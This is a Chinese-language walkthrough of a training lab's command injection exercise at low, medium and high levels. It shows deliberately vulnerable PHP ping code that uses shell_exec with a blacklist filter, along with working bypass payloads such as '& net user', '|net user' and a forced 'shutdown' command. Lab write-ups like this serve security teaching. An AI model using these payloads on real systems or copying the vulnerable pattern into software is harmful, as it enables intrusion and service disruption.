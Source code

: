 # Command Injection

> ## low
>

源码里面没有进行过滤，可以进行命令注入攻击。

在输入框里面输入：

```shell
127.0.0.1 && net user
```



就会列出系统中的所有用户



同样，也可以使用以下命令进行注入

```shell
127.0.0.1 & net user
127.0.0.1 | net user
127.0.0.1 && ipconfig
127.0.0.1 && shutdown -s -f -t 0
127.0.0.1 && 其他你想执行的命令
...
```

<br>

> ## medium

源码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```



分析源码可知，只把 `&&` 和 `;` 进行过滤处理

使用 `&` 进行注入即可



```shell
127.0.0.1 & net user
```

<br>

> ## high
>

源码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```



high等级的只是完善了黑名单，但是 `| ` 这个，后面有一个空格，所以可以使用 `|` 进行注入。



```shell
127.0.0.1|net user
```

注意 `|` 后面不要有空格

<br>